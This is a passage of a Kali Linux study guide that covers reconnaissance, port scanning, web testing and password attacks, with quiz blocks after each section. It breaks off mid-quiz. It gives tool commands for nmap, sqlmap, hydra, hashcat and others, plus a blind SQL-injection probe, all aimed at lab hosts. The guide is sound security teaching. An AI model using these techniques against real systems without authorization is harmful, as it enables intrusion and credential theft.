

# Kali Linux Study Guide

A practical, technique-first guide to Kali Linux and the major families of offensive-security tooling it ships with — written for engineers who want to understand *how* each class of attack actually works at the protocol and system level, not just which binary to type. Kali is not "Linux with hacking tools"; it is a purpose-built distribution for authorized penetration testing, security auditing, incident response, reverse engineering, wireless work, and forensics, and the reason it matters is that it packages, in one place and with sane defaults, the instruments for every phase of an assessment. But the tools are the easy part. What separates someone who *uses* Kali from someone who merely *has* it is understanding the technique each tool automates — because the tool changes every year, and the technique almost never does.

This guide is organized around the **penetration testing kill chain** — the sequence by which a real assessment proceeds from "we know nothing about this target" to "here is the documented path to compromise and how to close it." For each phase it explains the technique first (what you are actually doing, why it works, what assumption in the target it exploits), then presents the Kali tools as instruments for that technique, then shows a worked lab workflow. The companion to this offensive view is the defensive [Web & LLM Security guide](WEB_LLM_SECURITY_STUDY_GUIDE.md) — they teach the same boundaries from opposite sides — and the [Linux Fundamentals](LINUX_FUNDAMENTALS_STUDY_GUIDE.md), [Networking Fundamentals](NETWORKING_FUNDAMENTALS.md), and [Auth](AUTH_STUDY_GUIDE.md) guides supply the substrate (processes, packets, identity) every technique here manipulates.

**The one rule that matters before any other.** Every technique in this guide is illegal against systems you do not own or have explicit, written authorization to test. Penetration testing is a profession defined by *authorization* — the same `nmap` command is a routine first step inside a signed engagement and a federal crime against a stranger's network. Every example below uses lab targets, hosts you control, or the documentation-only ranges `192.0.2.0/24` and `198.51.100.0/24`. Build a lab (a few VMs, or a platform like Hack The Box / TryHackMe / a local DVWA and Active Directory range) and practice there. The skill being built is adversarial reasoning; the discipline that makes it a profession is scope.

Primary references: the [Kali docs](https://www.kali.org/docs/), the [all-tools index](https://www.kali.org/tools/all-tools/) and [metapackages page](https://www.kali.org/docs/general-use/metapackages/), the [Nmap reference guide](https://nmap.org/book/man.html), [PortSwigger's Web Security Academy](https://portswigger.net/web-security), the [Metasploit docs](https://docs.metasploit.com/), and the [OWASP Top 10](https://owasp.org/www-project-top-ten/) for the vulnerability classes the web phase exploits.

---

## Table of Contents

1. [What Kali Is, and the Methodology It Serves](#1-what-kali-is-and-the-methodology-it-serves)
2. [How Kali Organizes Its Tools](#2-how-kali-organizes-its-tools)
3. [Reconnaissance: Building a Model of the Target](#3-reconnaissance-building-a-model-of-the-target)
4. [Scanning and Enumeration: From Hosts to Attack Surface](#4-scanning-and-enumeration-from-hosts-to-attack-surface)
5. [Web Application Testing](#5-web-application-testing)
6. [Password Attacks: Online, Offline, and Wordlist Craft](#6-password-attacks-online-offline-and-wordlist-craft)
7. [Exploitation and Frameworks](#7-exploitation-and-frameworks)
8. [Active Directory and Windows Post-Exploitation](#8-active-directory-and-windows-post-exploitation)
9. [Network Attacks: Sniffing, Spoofing, and Relay](#9-network-attacks-sniffing-spoofing-and-relay)
10. [Wireless and Hardware](#10-wireless-and-hardware)
11. [Reverse Engineering, Mobile, and Firmware](#11-reverse-engineering-mobile-and-firmware)
12. [Forensics and Incident Response](#12-forensics-and-incident-response)
13. [Cloud, Secrets, and Social Engineering](#13-cloud-secrets-and-social-engineering)
14. [Reporting: Turning Access into a Finding](#14-reporting-turning-access-into-a-finding)
15. [A Study Roadmap](#15-a-study-roadmap)

---

## 1. What Kali Is, and the Methodology It Serves

Kali is a Debian-derived distribution maintained by Offensive Security, built and tuned for security work and explicitly *not* recommended as a daily-driver desktop. Three design decisions tell you what it is for. **Network services are disabled by default** — a freshly installed Kali listens on nothing, because a box you use to attack networks should not itself be a soft target advertising services. **The kernel carries patches for security work**, most importantly wireless-injection support that mainline drivers omit, which is why wireless attacks (Section 10) "just work" on Kali and require driver surgery elsewhere. And **the repositories are deliberately strict** — Kali warns sharply against adding unrelated third-party repositories, because the distribution is a carefully version-matched set of hundreds of tools, and a stray PPA is the fastest way to break it. The practical setup follows from this: run Kali in a VM with snapshots (so a tool that mangles your network stack is one rollback away), keep it updated with `sudo apt update && sudo apt full-upgrade`, and resist the urge to bolt random software onto it.

But the distribution is the least interesting thing about Kali. What matters is the **methodology** it serves, because Kali's tools only make sense as instruments in a process. A penetration test is not "run scanners until something breaks"; it is a structured progression, and every phase exists to feed the next:

1. **Reconnaissance** builds a model of the target's attack surface — what exists, what is exposed, what technologies are in play — ideally without touching the target at all.
2. **Scanning and enumeration** turns that model into specifics: which hosts are alive, which ports are open, which exact service versions answer, and what each service will tell you about itself.
3. **Vulnerability analysis** judges which of those specifics are actually weaknesses worth attacking, separating the real findings from the scanner's noise.
4. **Exploitation** proves a weakness is real by using it to gain access — the phase beginners fixate on and professionals reach last.
5. **Post-exploitation** answers the question that determines the engagement's value: now that you are in, *how far can you go?* — privilege escalation, lateral movement, persistence, and the hunt for the assets that matter.
6. **Reporting** converts all of it into something a defender can act on: the path, the proof, the impact, and the fix.

The single most important habit this methodology instills is **enumerate before you exploit**. Beginners want to fire exploits; the work that actually finds the way in is the patient cataloguing of attack surface, because exploitation is trivial once you know the exact version of the exact service with the exact misconfiguration — and impossible when you're guessing. The rest of this guide is that methodology, phase by phase, with the technique explained before the tool that automates it.



```quiz
Q: Why does Kali disable all network services by default and ship a wireless-injection-patched kernel?
- [ ] To make it slower
- [x] A box used to attack networks shouldn't itself be a soft target advertising services, and the kernel patches enable wireless attacks that mainline drivers omit — both reflect that Kali is a purpose-built offensive tool, not a daily-driver desktop
- [ ] Those are accidental defaults
- [ ] To comply with Debian policy
> Kali's design choices encode its purpose: listening on nothing keeps the attacker's machine from being attackable, the injection-capable kernel makes wireless work that requires driver surgery elsewhere "just work," and strict repositories keep its version-matched tool set from breaking. The practical corollary is to run it in a snapshotted VM and resist bolting random software onto it.

Q: What does "enumerate before you exploit" capture about the pentest methodology?
- [ ] Exploitation is the hardest phase
- [x] Exploitation is trivial once you know the exact vulnerable version and misconfiguration, and impossible when guessing — so the patient cataloguing of attack surface is the work that actually finds the way in; beginners fixate on exploits, professionals reach them last
- [ ] You should skip reconnaissance
- [ ] Scanners replace enumeration
> The structured progression (recon → scan/enumerate → analyze → exploit → post-exploit → report) exists because each phase feeds the next, and the payoff is front-loaded: a great pentest is a great enumeration phase followed by a short, precise exploitation phase. Firing exploits blindly wastes effort; knowing the exact service-version-misconfiguration makes the exploit step a lookup.

Q: In the methodology, what question does the post-exploitation phase answer, and why does it determine the engagement's value?
- [ ] Whether a port is open
- [x] "Now that you're in, how far can you go?" — privilege escalation, lateral movement, persistence, and reaching the assets that matter; initial access alone understates impact, so post-ex is what shows the real business risk
- [ ] How to write the report
- [ ] Which scanner to run
> Gaining a foothold proves a weakness is real, but a defender needs to know the consequences: can that foothold become domain admin, reach the crown-jewel database, or persist undetected? Post-exploitation maps that blast radius, which is what converts "we got a shell on a web server" into a finding with measurable impact — the difference between a curiosity and a board-level risk.
```

---

## 2. How Kali Organizes Its Tools

Kali ships hundreds of tools, and the way to not drown is to understand that they are grouped into **metapackages** — bundles you install by workflow rather than one binary at a time. The base `kali-linux-default` covers the common set; `kali-linux-large` is the kitchen sink; and the workflow metapackages map directly onto the kill chain — `kali-tools-information-gathering`, `kali-tools-web`, `kali-tools-passwords`, `kali-tools-wireless`, `kali-tools-exploitation`, `kali-tools-post-exploitation`, `kali-tools-forensics`, `kali-tools-reverse-engineering`, and more. Install the phase you're studying:

```bash
sudo apt update && sudo apt full-upgrade -y
sudo apt install -y kali-tools-information-gathering kali-tools-web
```

The smart way to study Kali is to ignore the catalog and follow the methodology: learn one or two tools per phase deeply rather than skimming fifty. The pattern for learning *any* unfamiliar tool is always the same — check its Kali tool page (`https://www.kali.org/tools/<name>/`, which gives package info, example commands, and the upstream link in one place), read `man <tool>` and `<tool> --help`, find its config and wordlists (most live under `/usr/share/`, and `/usr/share/seclists` and `/usr/share/wordlists` are the two directories you will use constantly), then run it against a target you control and read its output carefully. A tool you understand at this level is worth more than ten you can only invoke from memory of a cheat sheet.

```quiz
Q: Kali ships hundreds of tools. What's the recommended way to actually learn them?
- [ ] Install kali-linux-large and memorize every binary's flags
- [x] Install the metapackage for the phase you're studying, then learn one or two tools per phase deeply — read the tool's Kali page, its man page, and find its wordlists, then run it against a target you control
- [ ] Avoid metapackages and compile each tool from source
- [ ] Work through the all-tools index alphabetically
> The catalog is overwhelming by design, so you install by *workflow*: the metapackages (`kali-tools-web`, `kali-tools-passwords`, …) map onto the kill chain. Depth beats breadth — learning one or two tools per phase at the level of "what technique does it automate, what does its output mean" builds a usable mental model, where skimming fifty leaves you able to drive none of them under pressure.

Q: Where do the wordlists and configs for most Kali tools live, and why does that matter?
- [ ] In each user's home directory, regenerated per run
- [x] Under `/usr/share/` — especially `/usr/share/seclists` and `/usr/share/wordlists` — so knowing those paths is a prerequisite for content discovery, fuzzing, and password attacks
- [ ] They must be downloaded fresh from the internet each time
- [ ] Inside each tool's binary, not on disk
> Kali standardizes where shared data lives so tools and your own command lines can point at it. `/usr/share/wordlists` (with `rockyou.txt`) and `/usr/share/seclists` (curated lists for usernames, paths, passwords, fuzzing payloads) are the two directories you reference constantly across Sections 5 and 6 — which is why "find its config and wordlists" is part of the standard pattern for learning any new tool.

Q: Why does the guide insist a deeply-understood tool is worth more than ten you know only from a cheat sheet?
- [ ] Cheat sheets frequently contain errors
- [x] The specific tools churn from year to year while the underlying techniques barely change, so understanding the technique a tool automates transfers to whatever replaces it — memorized invocations don't
- [ ] Kali only lets you install ten tools at once
- [ ] Deep knowledge makes the scans themselves run faster
> This is the guide's thesis in miniature: Kali is a set of this-year's instruments for techniques that are remarkably stable. Someone who knows *why* a SYN scan or an offline hash crack works adapts when the tool is renamed or replaced; someone who memorized flags is stranded. That's why the study advice is depth-first — the transferable asset is the technique, not the command line.
```

---

## 3. Reconnaissance: Building a Model of the Target

Reconnaissance is the discipline of learning everything you can about a target *before* engaging it, and the central technique distinction is between **passive** and **active** recon. Passive reconnaissance gathers information without ever sending a packet to the target's own infrastructure — you query third parties (DNS registrars, certificate-transparency logs, search engines, public breach data) that already hold information about the target, so the target sees nothing and has no way to detect that they are being studied. Active reconnaissance touches the target directly (resolving its hostnames against its DNS, requesting its web pages) and is therefore both more revealing and more detectable. A real assessment front-loads passive recon, because every fact you can learn without touching the target is a fact you gathered for free and invisibly.

The goal of the phase is to build a believable **map of the attack surface**: the domains and subdomains that exist, the IP ranges they resolve to, the technologies in use, and the public clues (employee names, email formats, leaked credentials, exposed code) that feed later phases. The technique that pays off most is **subdomain enumeration**, because organizations sprawl — `app.example.com`, `staging.example.com`, `vpn.example.com`, `old-admin.example.com` — and the forgotten subdomain is the classic way in. Two passive sources do most of the work: **certificate-transparency logs** (every TLS certificate ever issued for a domain is publicly logged, so querying them reveals subdomains the organization may have forgotten exists) and **DNS aggregation** across the many public datasets. The crucial follow-up technique is **validation**: discovery produces a list of *names*, but a name is not a live host — so you resolve them to IPs and probe which actually answer HTTP, because "this subdomain exists in a cert log" and "this subdomain serves a live, attackable application" are very different facts, and conflating them wastes the whole next phase.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Amass](https://www.kali.org/tools/amass/) | Passive + active subdomain enumeration across many sources | `amass enum -passive -d example.com -o amass.txt` |
| [Subfinder](https://www.kali.org/tools/subfinder/) | Fast passive subdomain discovery | `subfinder -d example.com -silent` |
| [theHarvester](https://www.kali.org/tools/theharvester/) | Emails, names, hosts from public sources (OSINT) | `theHarvester -d example.com -b bing,crtsh` |
| [dnsrecon](https://www.kali.org/tools/dnsrecon/) | DNS record enumeration and zone analysis | `dnsrecon -d example.com` |
| [httpx-toolkit](https://www.kali.org/tools/httpx-toolkit/) | Validate which discovered hosts actually speak HTTP(S) | `httpx-toolkit -l hosts.txt -title -tech-detect` |
| [WhatWeb](https://www.kali.org/tools/whatweb/) | Fingerprint the web technologies a live host runs | `whatweb http://192.0.2.10` |
| [Recon-ng](https://www.kali.org/tools/recon-ng/) / [SpiderFoot](https://www.kali.org/tools/spiderfoot/) | Modular/automated OSINT correlation workspaces | `spiderfoot -l 127.0.0.1:5001` |

The phase as a pipeline — discover names passively, merge and de-duplicate, then validate which are live and what they run:

```bash
subfinder -d example.com -silent > subs.txt
amass enum -passive -d example.com >> subs.txt
sort -u subs.txt > unique-subs.txt
httpx-toolkit -l unique-subs.txt -title -tech-detect -o live-http.txt   # validation step
```

The mental model to carry out of this phase is that recon is *modeling*, not *attacking*. You are building a picture detailed enough that the next phase knows exactly where to look, and the quality of that picture determines everything downstream — a great pentest is usually a great reconnaissance phase followed by a short, precise exploitation phase, never the reverse.

```quiz
Q: What distinguishes passive from active reconnaissance, and why front-load passive?
- [ ] Passive uses faster tools
- [x] Passive gathers info from third parties (cert logs, DNS registrars, search engines) without ever touching the target, so it's invisible and undetectable; active touches the target directly and is detectable — every fact learned passively is gathered free and unseen
- [ ] Passive is illegal; active is legal
- [ ] They produce identical results
> Passive recon queries datasets that already hold information about the target (certificate transparency, public DNS, breach data), so the target sees nothing. Active recon resolves the target's DNS or fetches its pages, which it can log. Front-loading passive means you build as much of the picture as possible without alerting the target or leaving a trace, reserving detectable active probes for what passive can't reveal.

Q: Why is validating discovered subdomains (resolving and probing for live HTTP) a crucial step, not an optional one?
- [ ] It speeds up the scan
- [x] Discovery yields a list of *names*, but a name in a cert log isn't a live host — conflating "this subdomain exists" with "this serves an attackable app" wastes the entire next phase chasing dead names
- [ ] Validation is required by law
- [ ] Names can't be resolved otherwise
> Certificate-transparency logs and DNS aggregation reveal subdomains an org may have forgotten, but many resolve to nothing or serve no application. The validation step (e.g. httpx probing which names actually answer HTTP and what they run) separates real attack surface from noise, so the next phase targets live, attackable hosts rather than burning time on names that lead nowhere.

Q: Why is "Apache 2.4.49" a far more valuable finding than "port 80 open"?
- [ ] Port numbers are unreliable
- [x] The exact software and version is what you look up against known vulnerabilities — service/version detection (`nmap -sV` interrogating the service, not trusting the port number) turns an open port into a specific, searchable, often-exploitable fact
- [ ] Port 80 is always a false positive
- [ ] Version strings are encrypted
> An open port only says something is listening; a port number is a convention, not a guarantee of what's behind it. Version detection connects and fingerprints the actual service, yielding the precise version string that hinges the whole assessment — because that's what maps to CVEs. NSE scripts and protocol-specific enumeration then push further, but the exact-version fact is what makes a port a target.
```

---

## 4. Scanning and Enumeration: From Hosts to Attack Surface

If recon told you *what exists*, scanning and enumeration tell you *what is exposed and exactly what it is* — and this is where the most foundational technique in all of offensive security lives: the **port scan**. A port scan determines which TCP/UDP ports on a host are open, because an open port is a listening service, and a listening service is attack surface. The technique works by exploiting the TCP handshake itself: the classic **SYN scan** sends a TCP SYN packet (the first step of a connection) to each port and reads the response — a SYN-ACK means "open, something is listening," a RST means "closed, nothing here," and silence usually means a firewall is dropping the packet. Crucially, the SYN scan never completes the handshake (it sends a RST instead of the final ACK), so it's faster and historically stealthier than a full connection. This is why `nmap -sS` needs root: forging raw SYN packets requires privileges a normal connect() doesn't.

But knowing a port is open is only the start; the technique that turns a port into a target is **service and version detection**. A port number is a convention, not a guarantee — port 8080 might be a web server, a proxy, or something unexpected — so `nmap -sV` doesn't trust the number; it connects and *interrogates* the service, sending probes and matching the responses against a database of known service fingerprints to learn the exact software and version (`Apache httpd 2.4.49`, `OpenSSH 8.2p1`). That exact version string is the hinge of the entire assessment, because it is what you look up against known vulnerabilities — "port 80 open" is nothing, but "Apache 2.4.49" is a specific, searchable, often-exploitable fact. Nmap extends this further with the **Nmap Scripting Engine (NSE)**, a library of scripts that go beyond version detection to actively check for specific vulnerabilities, misconfigurations, and information disclosures per service.

The companion technique is **service-specific enumeration**: once you know a host runs SMB (port 445) or LDAP (port 389) or a web server, you switch from the generic port scanner to a protocol-aware tool that speaks that protocol fluently and asks it everything it will reveal. SMB will often, when misconfigured, list its shares and users to an anonymous request; LDAP will dump the directory structure; TLS services will disclose their exact cipher configuration. The art of enumeration is knowing what each protocol leaks and asking for it — and **validating** what the automated scanners report, because vulnerability scanners produce false positives liberally, and a finding you haven't confirmed by hand is a finding you can't put in a report.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Nmap](https://www.kali.org/tools/nmap/) | Port scan, service/version detection, NSE vuln checks | `nmap -sV -sC -Pn -oA scan 192.0.2.10` |
| [Masscan](https://www.kali.org/tools/masscan/) | Internet-scale port sweeps (very fast, less detail) | `sudo masscan 192.0.2.0/24 -p1-1000 --rate 1000` |
| [Nuclei](https://www.kali.org/tools/nuclei/) | Template-based checks for thousands of known exposures | `nuclei -u http://192.0.2.10` |
| [Nikto](https://www.kali.org/tools/nikto/) | Web-server misconfiguration and dangerous-file checks | `nikto -h http://192.0.2.10` |
| [testssl.sh](https://www.kali.org/tools/testssl.sh/) / [sslscan](https://www.kali.org/tools/sslscan/) | Deep TLS configuration review | `testssl 192.0.2.10:443` |
| [enum4linux-ng](https://www.kali.org/tools/enum4linux-ng/) | SMB/Windows host enumeration (shares, users, policy) | `enum4linux-ng -A 192.0.2.20` |
| [smbclient](https://www.kali.org/tools/samba/) / [rpcclient](https://www.kali.org/tools/samba/) | Interact with SMB shares and Windows RPC interfaces | `smbclient -L //192.0.2.20 -N` |

A worked enumeration of one host found running web, SMB, and LDAP — scan broadly, then enumerate each protocol with its specialist:

```bash
nmap -sV -sC -Pn -oA host 192.0.2.20        # versions + default NSE scripts, saved to files
nuclei -u https://192.0.2.20                # known-exposure templates
testssl 192.0.2.20:443                      # TLS posture
enum4linux-ng -A 192.0.2.20                 # SMB: shares, users, password policy
smbclient -L //192.0.2.20 -N                # try anonymous share listing
```

What that first command actually prints is a small table you learn to read at a glance — each row is a piece of attack surface:

```
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (protocol 2.0)
80/tcp  open  http         Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  microsoft-ds Samba smbd 4.6.2
```

Read the columns in order of importance. `STATE open` means something is listening; `SERVICE` is nmap's *guess* from the port number (a convention, not a promise); and `VERSION` — the column that earns the whole scan — is what `-sV` learned by actually connecting and interrogating the service. *Apache httpd 2.4.41* is a string you can paste straight into a vulnerability search; *80/tcp open* alone is not. Every entry in that version column is a lead the exploitation phase (Section 7) will follow, which is the concrete reason the slower `-sV` is worth the time over a bare port sweep.

The discipline that makes this phase pay off is keeping every raw output (`nmap -oA` writes three formats at once precisely so you have evidence later) and treating scanner results as *leads to validate*, not *findings to report*. The output of this phase should be a ranked list of attack surface — this exact service, this exact version, this specific misconfiguration — that tells the next phase precisely where to push.

```quiz
Q: Why does a SYN scan (`nmap -sS`) require root, and how does it decide a port is open?
- [ ] Root is only needed to write the output files
- [x] It forges raw SYN packets (which needs privilege) and reads the reply — SYN-ACK means a service is listening (open), RST means closed, and silence usually means a firewall dropped it — without ever completing the handshake
- [ ] It opens a full TCP connection like any program, so no privilege is required
- [ ] Root simply makes the scan run faster
> The classic SYN scan exploits the TCP handshake itself: it sends the opening SYN, reads the response, then sends a RST instead of the final ACK so the connection never completes — faster and historically stealthier than a full connect. Crafting those raw packets needs privileges a normal `connect()` doesn't, which is why `-sS` runs as root; unprivileged, nmap falls back to the slower full-connect `-sT`.

Q: After a scan finds SMB (445) and LDAP (389) open, why switch from nmap to a tool like enum4linux-ng or smbclient?
- [ ] Those tools scan ports faster than nmap
- [x] Service-specific enumeration speaks each protocol fluently and asks it everything it will reveal — a misconfigured SMB will list its shares and users to an anonymous request, LDAP will dump directory structure — which the generic port scanner doesn't extract
- [ ] nmap cannot see ports 445 or 389
- [ ] Protocol tools are required to stay undetected
> A port scan tells you *what* is listening; protocol-aware enumeration interrogates it for what it *leaks*. The art of the phase is knowing what each protocol gives up — anonymous SMB share and user listings, LDAP directory dumps, TLS cipher configurations — and asking for it with the specialist tool, turning "445 open" into named shares and usernames that feed the credential and AD phases.

Q: A vulnerability scanner reports a finding. Why isn't that something you can put in the report yet?
- [ ] Scanners only check whether a port is open
- [x] Scanners produce false positives liberally, so a result is a *lead to validate by hand*, not a confirmed finding — an unconfirmed item is one the client can dismiss and one that erodes your credibility
- [ ] Findings must be generated by Metasploit to count
- [ ] Reports can only cite GUI tools
> Automated scanners (nuclei, nikto) optimize for catching everything and so flag much that isn't real. Treating their output as findings rather than leads means reporting noise. The discipline is to reproduce each interesting result manually — keeping the raw evidence, which is why `nmap -oA` saves three formats at once — so every reported finding is one you have personally confirmed.
```

---

## 5. Web Application Testing

Web applications are where most engagements spend most of their time, because a web app is an enormous, custom, internet-facing attack surface — HTTP, authentication, sessions, APIs, file handling, and business logic, all written by humans under deadline. The foundational technique of web testing is **intercepting proxy** work: you route your browser's traffic through a tool that sits in the middle (Burp Suite or OWASP ZAP), so that every request the application makes passes through your hands before reaching the server, and every response passes through before reaching the browser. This is the master technique because it dissolves the illusion that the browser is the application — the *server* is the application, the browser is just one client, and a proxy lets you send the server any request you like regardless of what the page's forms and JavaScript intended. Every client-side control (a disabled button, a maxlength field, a hidden price) evaporates the moment you can edit the raw request in transit. This is the offensive mirror of the [Web Security guide](WEB_LLM_SECURITY_STUDY_GUIDE.md)'s defensive axiom that client-side validation is never a security control.

The second core technique is **content discovery** (also called forced browsing or directory brute-forcing): web servers don't advertise their full structure, so you discover hidden paths by requesting candidate names from a wordlist and watching the response codes — a `200` or `403` where you'd expect `404` reveals a path that exists. This is how you find the `/admin` panel that isn't linked, the `/backup.zip` someone left, the `/api/v1/internal` endpoint, the `.git` directory exposing source. The technique is pure inference from response codes, and its quality depends entirely on the wordlist (which is why SecLists matters): a good content-discovery wordlist is the accumulated knowledge of what developers actually name things.

The third technique class is **injection testing**, and the canonical example is **SQL injection**, which works exactly as the defensive guide describes: the application builds a database query by concatenating your input into a command string, so input crafted with SQL syntax breaks out of the intended data context and becomes code the database executes. The offensive workflow is to find an input that reaches a query (a search box, an `id=` parameter), confirm injectability with a probe that provokes a database error or a measurable time delay (`' OR SLEEP(5)--` makes a vulnerable query hang for five seconds — proof even when no error is visible, the "blind" case), and then escalate to extracting data. `sqlmap` automates the escalation once you've found the injectable parameter, but understanding *why* the probe works — that you're closing a quote and appending syntax the parser honors — is what lets you find injection points the scanner misses and exploit ones it can't.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Burp Suite](https://www.kali.org/tools/burpsuite/) / [OWASP ZAP](https://www.kali.org/tools/zaproxy/) | Intercepting proxy: edit/replay/scan every request | `burpsuite` |
| [ffuf](https://www.kali.org/tools/ffuf/) | Fast content & parameter fuzzing (the `FUZZ` keyword) | `ffuf -u http://192.0.2.10/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt` |
| [Gobuster](https://www.kali.org/tools/gobuster/) / [Feroxbuster](https://www.kali.org/tools/feroxbuster/) | Directory, vhost, and recursive content discovery | `gobuster dir -u http://192.0.2.10 -w /usr/share/seclists/Discovery/Web-Content/common.txt` |
| [sqlmap](https://www.kali.org/tools/sqlmap/) | Automated SQL-injection detection and exploitation | `sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit' --batch` |
| [WhatWeb](https://www.kali.org/tools/whatweb/) | Technology fingerprinting to guide the attack | `whatweb http://192.0.2.10` |

The disciplined workflow is proxy-first, automate-second: understand the application by hand through the proxy before you let a scanner loose, because the scanner finds the generic bugs while the human finds the business-logic flaws (the price you can set negative, the other user's order you can read) that no scanner understands.

```bash
whatweb http://192.0.2.10                                          # what is this?
gobuster dir -u http://192.0.2.10 -w /usr/share/seclists/Discovery/Web-Content/common.txt
# then drive the app through Burp, find an injectable param, and:
sqlmap -u 'http://192.0.2.10/item?id=1' --batch --risk=2 --level=3
```

The mental model that makes web testing productive is to think of every input as a question you get to phrase however you like and every output as a potential leak — and to separate content *discovery* (what exists) from vulnerability *validation* (what's broken), because conflating them produces a pile of paths with no idea which are dangerous.

```quiz
Q: Why does an intercepting proxy (Burp/ZAP) defeat client-side controls like a disabled button or a hidden price field?
- [ ] It runs the page's JavaScript faster than the browser
- [x] The server is the real application and the browser is just one client — editing the raw request in transit sends the server whatever you like, so any control enforced only in the page (disabled buttons, `maxlength`, hidden fields) evaporates
- [ ] It decrypts the server's database
- [ ] It permanently disables the site's JavaScript
> The master web-testing technique is realizing the browser isn't the application — the server is, and a proxy lets you alter requests *after* the page's JavaScript and forms are done with them. So client-side validation is never a security control, the offensive mirror of the defensive guide's axiom. Whatever the page "won't let you do," the proxy lets you send anyway.

Q: How does directory brute-forcing (ffuf/gobuster) discover an `/admin` panel that nothing links to?
- [ ] It reads the server's filesystem directly
- [x] It requests candidate paths from a wordlist and infers existence from the response code — a `200` or `403` where you'd expect `404` reveals a path that really exists — so its quality depends almost entirely on the wordlist
- [ ] It guesses the admin password
- [ ] It uses DNS records to list directories
> Content discovery is pure inference from status codes: the server won't enumerate its own structure, so you probe names and watch which ones don't return `404`. That's how unlinked admin panels, stray `backup.zip` files, and exposed `.git` directories surface. Because it's only as good as the candidate list, SecLists — the accumulated knowledge of what developers actually name things — is what makes it effective.

Q: A search box shows no error, but `' OR SLEEP(5)--` makes the page take five seconds. What does that prove?
- [ ] The server is simply under load
- [x] The input reaches a SQL query and the database executed injected syntax — the measurable delay confirms (blind) SQL injection even when no error or data is visible, because you closed a quote and appended syntax the parser honored
- [ ] The network is congested
- [ ] The site is rate-limiting you
> SQL injection works because the app concatenates input into a query string, so SQL syntax in the input becomes code. When nothing visible comes back, you provoke a *measurable* effect: `SLEEP(5)` hangs a vulnerable query for five seconds — the "blind" confirmation. Understanding the mechanism (you're breaking out of the data context into the command context) is what lets you find and exploit injection that sqlmap's automation would miss.
```

---

## 6. Password Attacks: Online, Offline, and Wordlist Craft

Credentials are the currency of most compromises, and the foundational technique distinction is between **online** and **offline** attacks — a distinction that determines everything about how you proceed. An **online attack** guesses passwords against a live service (trying SSH logins, web logins, SMB authentication), which means every guess is a network round-trip the target can see, rate-limit, and lock out; online attacks are therefore slow, noisy, and limited to a small number of high-probability guesses (a few common passwords against many users — "password spraying" — rather than many passwords against one user, which trips lockouts). An **offline attack** works on password *hashes* you've already obtained (from a database dump, a captured authentication exchange, a leaked file), and because you're computing hashes locally on your own hardware with no target involved, you can try *billions* of guesses per second against no rate limit at all — which is exactly why the [defensive guide](WEB_LLM_SECURITY_STUDY_GUIDE.md) insists on slow, memory-hard hashes: the entire defense is making each offline guess expensive.

The offline technique is **hash cracking**, and understanding it requires understanding what a hash is: a one-way function that turns a password into a fixed fingerprint, designed to be impossible to reverse directly. You can't decrypt a hash, so you *guess*: take a candidate password, hash it with the same algorithm, and compare — if the fingerprints match, you've found the password. Cracking is therefore a guessing race, and the two levers are guess *quality* (a good wordlist of likely passwords) and guess *speed* (GPU acceleration, which is why Hashcat exists — GPUs compute simple hashes massively in parallel). The critical first step is **hash identification**: different algorithms (`MD5`, `NTLM`, `bcrypt`, `sha512crypt`) need different cracking modes and crack at wildly different speeds, so before you can crack a hash you must know what kind it is — fast hashes (MD5, NTLM) fall in minutes, while deliberately slow ones (bcrypt, Argon2) may be infeasible, which is itself a finding about the target's security.

The technique that most distinguishes a skilled credential attacker is **wordlist craft**. The giant generic list (`rockyou.txt`, fourteen million real leaked passwords) is the baseline, but *targeted* wordlists routinely beat it: people pick passwords related to their company, products, and city, so a list built from the target's own website (every noun on their pages, via CeWL) often cracks passwords a generic list never reaches. Combining sources, applying mutation rules (capitalize, append years and `!`, leetspeak — the transformations people actually make), and ordering by likelihood is where cracking success is won.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Hashcat](https://www.kali.org/tools/hashcat/) | GPU offline cracking (fastest; mode `-m` = hash type) | `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt` |
| [John the Ripper](https://www.kali.org/tools/john/) | Flexible offline cracking + format auto-detect and rules | `john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt` |
| [Hydra](https://www.kali.org/tools/hydra/) | Online login guessing across many protocols | `hydra -l admin -P passwords.txt ssh://192.0.2.20` |
| [CeWL](https://www.kali.org/tools/cewl/) | Build a targeted wordlist from the target's own site | `cewl http://192.0.2.10 -w custom.txt` |
| [SecLists](https://www.kali.org/tools/seclists/) | Curated wordlists for passwords, usernames, paths, fuzzing | `ls /usr/share/seclists` |

A targeted offline workflow — scrape the target for a custom list, merge with the generic baseline, then crack:

```bash
cewl http://intranet.lab -w target-words.txt
cat /usr/share/wordlists/rockyou.txt target-words.txt | sort -u > merged.txt
hashid hash.txt                                    # identify the hash type FIRST
hashcat -m 1000 hashes.txt merged.txt -r /usr/share/hashcat/rules/best64.rule
```

The mental model: online attacks are about a handful of high-probability guesses against rate limits and lockouts; offline attacks are an unbounded guessing race won by wordlist quality and hash speed; and the most important number in the room is what *kind* of hash you have, because it sets the ceiling on what's possible.

```quiz
Q: Why are online password attacks limited to a few high-probability guesses while offline attacks can try billions per second?
- [ ] Online services use stronger hashes
- [x] Online guesses are network round-trips the target can see, rate-limit, and lock out; offline attacks compute hashes locally on your own hardware against a captured hash with no target involved and no rate limit
- [ ] Offline attacks are illegal
- [ ] Online attacks need a GPU
> An online guess hits a live service that logs failures and enforces lockouts, so you're confined to spraying a handful of common passwords across many accounts. An offline attack works on hashes you already have, computing candidates on your own GPU with nothing throttling you — which is exactly why defenders use slow, memory-hard hashes: the entire defense is making each offline guess expensive.

Q: Why is hash *identification* the critical first step before cracking?
- [ ] It's required to download the hash
- [x] Different algorithms need different cracking modes and crack at wildly different speeds — fast hashes (MD5, NTLM) fall in minutes while deliberately slow ones (bcrypt, Argon2) may be infeasible, which is itself a finding about the target's security
- [ ] All hashes crack the same way
- [ ] Identification reverses the hash
